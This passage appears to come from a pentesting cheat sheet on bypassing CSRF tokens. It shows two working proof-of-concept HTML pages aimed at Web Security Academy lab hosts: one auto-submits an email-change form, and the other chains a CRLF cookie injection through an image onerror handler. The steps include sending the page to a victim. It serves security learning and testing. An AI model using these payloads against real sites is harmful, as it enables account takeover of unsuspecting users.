 ### Bypass Method - 3: Feed your own account generated CSRF token in attack.

```markdown
Test Case: CSRF token is not tied to the user session.

1. Interect with functionality and intercept the request.
2. Right click generate csrf poc.
3. Copy the code in a file.html remove any session token
4. Drop the request.
5. Send the file.html to victim.

Example CSRF Code:

<!DOCTYPE html>
<html>
  <!-- CSRF PoC - generated by Burp Suite i0 SecLab plugin -->
<body>
	<form method="POST" action="https://acd81f251e0c762980c31ae600c70041.web-security-academy.net:443/email/change-email">
		<input type="text" name="email" value="natsu@natsu.com">
		<input type="text" name="csrf" value="NqdmYFyfHgQl8JWLKd7YTOC24Tqdedpw">
	</form>
<script>
      document.forms[0].submit();
    </script>
</body>
</html>
```

### Bypass Method - 4 : Chain any other vulnerability to add your cookie for example `XSS`, `CRLF` → `CSRF`

```markdown
Test Case - 1 : CSRF token is tied to a non-session cookie, when we have two csrf token one in cookie and other in the functionality this is due to presence of two framework one for session handling and one for CSRF protection, which are not integrated together.
The cookie-setting behavior does not even need to exist within the same web application as the CSRF vulnerability. Any other application within the same overall DNS domain can potentially be leveraged to set cookies in the application that is being targeted, if the cookie that is controlled has suitable scope. For example, a cookie-setting function on staging.demo.normal-website.com could be leveraged to place a cookie that is submitted to secure.normal-website.com.

1. Find any vulnerability which allow you to inject something in the cookie of victim.
2. Test if CSRF token is tied to session id (try changing session id keeping everything as it is))
3. Check if the your csrf token works when replaced in victims request
4. Lastly check if you can inject CRLF and change csrf cookie value
5. Done now make a csrf poc with xss payload which execute crlf and send this poc to victim

Example CSRF Code:

<!DOCTYPE html>
<html>
  <!-- CSRF PoC - generated by Burp Suite i0 SecLab plugin -->
<body>
	<form method="POST" action="https://ac981fc81ee9f58b80984ae400200076.web-security-academy.net:443/my-account/change-email">
		<input type="text" name="csrfKey" value="ntq9GTrV4JhtLaX07sqTnMpOHwMGpaX9">
		<input type="text" name="email" value="hehe@hehe.com">
		<input type="text" name="csrf" value="6EU5SJ9YKzfOsq9rNgDR8toGy0TKSw81">
		<input type="submit" value="Send">
	</form>
<img src="http://ac981fc81ee9f58b80984ae400200076.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=ntq9GTrV4JhtLaX07sqTnMpOHwMGpaX9" onerror="document.forms[0].submit()">
```